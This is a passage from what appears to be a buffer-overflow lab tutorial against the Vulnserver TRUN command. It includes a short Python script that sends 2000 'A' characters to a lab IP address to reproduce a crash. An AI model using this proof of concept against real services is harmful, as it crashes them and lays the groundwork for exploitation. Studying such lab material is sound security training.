

replicate the crash (with the same amount of characters that caused the crash)
Now we will replicate only one time with the exact length of characters(2000) that caused the crash.
#!/usr/bin/python
import socket
import sys
from time import sleep
buffer = 'A' * 2000 #exact length of character
try:
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.settimeout(2)
s.connect(('192.168.1.118',9999))
s.recv(1024)
print '[*] Sending buffer.'
s.send('TRUN /.:/' + buffer + '\r\n') #target the TRUN command
s.close()
except:
print '[*] Could not connect to target, exiting.'
sys.exit()
The Buffer Overflow Worked
